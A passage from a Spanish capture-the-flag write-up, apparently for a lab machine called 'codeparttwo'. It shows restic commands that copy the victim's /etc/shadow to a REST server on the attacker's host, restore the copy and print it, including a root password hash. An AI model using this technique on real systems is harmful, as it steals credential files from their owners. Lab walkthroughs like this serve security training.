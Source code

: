 ```
processed 1 files, 1.339 KiB in 0:00
snapshot 8ba0bb36 saved

2025-09-19 16:29:04,212 :: INFO :: Runner took 2.919008 seconds for raw
2025-09-19 16:29:04,212 :: INFO :: Operation finished
2025-09-19 16:29:04,219 :: INFO :: ExecTime = 0:00:02.970154, finished, state is: success.
```

Ahora vamos a comprobar las `snapshots` a ver si nos llego bien, en la maquina atacante haremos lo siguiente:

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" snapshots
```

Metemos la contraseña establecida del repo....

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
ID        Time                 Host         Tags        Paths
-------------------------------------------------------------------
8ba0bb36  2025-09-19 12:29:02  codeparttwo              /etc/shadow
-------------------------------------------------------------------
1 snapshots
```

Con esto vemos que ha funcionado, por lo que vamos a exportarlo para verlo en texto plano y ver que realmente es el archivo de la maquina victima.

```shell
/snap/bin/restic -r "rest:http://<IP>:6666/Pwn3d" restore 8ba0bb36 --include /etc/shadow --target /tmp
```

Info:

```
repository adeef797 opened (repository version 2) successfully, password is correct
restoring <Snapshot 8ba0bb36 of [/etc/shadow] at 2025-09-19 16:29:02.381437431 +0000 UTC by root@codeparttwo> to /tmp
```

Ahora vamos a leerlo de esta forma:

```shell
cat /tmp/etc/shadow
```

Info:

```
root:$6$UM1RuabUYlt5BQ5q$ZtzAfYOaCaFxA8MGbyH1hegFpzQmJrpIkx7vEIKvXoVl830AXAx1Hgh8r11GlpXgY25LK8wF76nvQYQ1wLSn71:20104:0:99999:7:::
daemon:*:19430:0:99999:7:::
bin:*:19430:0:99999:7:::
sys:*:19430:0:99999:7:::
sync:*:19430:0:99999:7:::
games:*:19430:0:99999:7:::
man:*:19430:0:99999:7:::
lp:*:19430:0:99999:7:::
mail:*:19430:0:99999:7:::
news:*:19430:0:99999:7:::
uucp:*:19430:0:99999:7:::
proxy:*:19430:0:99999:7:::
www-data:*:19430:0:99999:7:::
backup:*:19430:0:99999:7:::
list:*:19430:0:99999:7:::
irc:*:19430:0:99999:7:::
gnats:*:19430:0:99999:7:::
```